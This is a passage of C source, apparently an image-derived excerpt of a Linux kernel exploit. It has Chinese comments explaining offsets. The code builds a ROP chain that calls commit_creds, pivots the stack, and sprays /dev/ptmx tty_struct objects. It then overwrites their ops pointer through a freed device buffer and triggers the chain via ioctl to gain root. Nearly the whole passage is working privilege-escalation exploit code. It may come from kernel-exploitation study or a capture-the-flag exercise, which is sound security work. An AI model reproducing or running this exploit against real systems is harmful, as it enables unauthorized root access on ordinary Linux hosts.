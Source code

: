 ```c
  *rop_chain++ = pop_rcx_ret - base + kernel_base;
  *rop_chain++ = 0;
  *rop_chain++ = mov_rdi_rax_movsq_ret - base + kernel_base;
  *rop_chain++ = commit_creds - base + kernel_base;
  *rop_chain++ =
      swapgs_restore_regs_and_return_to_usermode - base + kernel_base + 22;
  *rop_chain++ = 0;
  *rop_chain++ = 0;
  *rop_chain++ = user_rip;
  *rop_chain++ = user_cs;
  *rop_chain++ = user_rflags;
  *rop_chain++ = user_sp;
  *rop_chain++ = user_ss;

  *(uint64_t *)&buf[0x3f8] = stack_pivot - base + kernel_base; // stack pivot

  puts("[*] build the rop chain");

  write(fd2, buf, 0x400);

  int fd3 = open(DEVICE, O_RDWR);
  int fd4 = open(DEVICE, O_RDWR);

  if (fd3 == -1 || fd4 == -1) {
    perror("open");
    return 1;
  }

  close(fd3);

  for (int i = SPRAY_NUM / 2; i < SPRAY_NUM; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  read(fd4, buf, 0x400);

  *(uint64_t *)&buf[0x18] = g_buf + 0x3f8 - 12 * 8;
  // 函数表中触发的对应函数是在0xc位置上的函数，所以这里的偏移要减去12个8字节

  puts("[*] overwrite tty_struct ops pointer");

  write(fd4, buf, 0x20);

  for (int i = SPRAY_NUM / 2; i < SPRAY_NUM; i++) {
    ioctl(spray[i], 0, g_buf - 8);
    // gadget中多余的一个pop操作会让rsp加一个8字节，所以这里要提前减掉
  }

  close(fd2);
  close(fd4);

  for (int i = 0; i < SPRAY_NUM; i++)
    close(spray[i]);

  return 0;
}

// ffffffff81269780
// ioctl(fd, rcx, rdx)
```
